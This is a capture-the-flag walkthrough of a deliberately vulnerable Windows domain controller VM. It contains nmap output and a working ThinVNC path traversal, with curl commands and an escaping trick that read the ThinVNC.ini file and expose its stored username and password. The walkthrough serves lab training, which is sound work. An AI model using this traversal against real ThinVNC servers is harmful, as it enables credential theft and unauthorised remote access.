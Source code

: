 # 0. Sources

||||
|---|---|---|
|[Reddit](https://www.reddit.com/r/oscp/comments/x52uqy/i_made_another_vulnerable_vm_can_you_crack_it_and/)|[YouTube](https://www.youtube.com/watch?v=gT4XuThAlQ4)|[Download](https://drive.google.com/file/d/1uAWR1oZtpxRSAjhAONXCqUqR3wJckKy4/view)|

<details>
  <summary><h1>1. Nmap Scan</h1></summary>

┌──(root㉿kali)-[~]
└─# nmap -p- -A 10.0.88.40
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-11 09:27 +08
Nmap scan report for 10.0.88.40
Host is up (0.0014s latency).
Not shown: 65509 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-12-11 01:28:11Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: windomain.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds (workgroup: WINDOMAIN)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: windomain.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=dc.windomain.local
| Not valid before: 2022-08-06T03:13:07
|_Not valid after:  2023-02-05T03:13:07
|_ssl-date: 2022-12-11T01:30:08+00:00; 0s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
8080/tcp  open  http-proxy
|_http-title: 401 Access Denied
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.1 404 Not Found
|     Content-Type: text/html
|     Content-Length: 177
|     Connection: Keep-Alive
|     <HTML><HEAD><TITLE>404 Not Found</TITLE></HEAD><BODY><H1>404 Not Found</H1>The requested URL nice%20ports%2C/Tri%6Eity.txt%2ebak was not found on this server.<P></BODY></HTML>
|   GetRequest:
|     HTTP/1.1 401 Access Denied
|     Content-Type: text/html
|     Content-Length: 144
|     Connection: Keep-Alive
|     WWW-Authenticate: Digest realm="ThinVNC", qop="auth", nonce="Gaiz9UHt5UBI1xcBQe3lQA==", opaque="XgshKcSfAom3vEtIe5sHCFquB6Of3K8LA8"
|_    <HTML><HEAD><TITLE>401 Access Denied</TITLE></HEAD><BODY><H1>401 Access Denied</H1>The requested URL requires authorization.<P></BODY></HTML>
| http-auth:
| HTTP/1.1 401 Access Denied\x0D
|_  Digest realm=ThinVNC opaque=Wsx6p9cWsaAsWsUaYlplA31lIqenSeIOiM nonce=xAcnAELt5UAI2xcBQu3lQA== qop=auth
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49671/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49681/tcp open  msrpc         Microsoft Windows RPC
49726/tcp open  msrpc         Microsoft Windows RPC

</details>

# 2. Checking for exploits

The target has ThinVNC on `8080`, searching for it on **Exploit-DB** returns a plausible [Authentication Bypass exploit](https://www.exploit-db.com/exploits/47519).

The exploit points to `GET`-ing the page on `http://<hostname>/xyz/../../ThinVNC.ini`

But cURL-ing it gives `404`

```console
┌──(root㉿kali)-[~]
└─# curl http://10.0.88.40:8080/xyz/../../ThinVNC.ini
<HTML><HEAD><TITLE>404 Not Found</TITLE></HEAD><BODY><H1>404 Not Found</H1>The requested URL ThinVNC.ini was not found on this server.<P></BODY></HTML>
```

☝️ cURL and browsers collapses `../` traversals, **always double-quote the URL and escape the `/` characters**

The user/password found using a successful cURL:

```console
┌──(root㉿kali)-[~]
└─# curl "http://10.0.88.40:8080/xyz/..\/..\/ThinVNC.ini"
[Authentication]
Unicode=0
User=vagrant
Password=vagrant
Type=Digest
[Http]
Port=8080
Enabled=1
[Tcp]
Port=
[General]
AutoStart=1
```

# 3. Further attacks

Breaking into ThinVNC provides console access to the machine

The remaining attacks follow the same as [VulnDC](2022-01-10-VulnDC.md) and [VulnDC2](2022-01-17-Vulndc2.md)
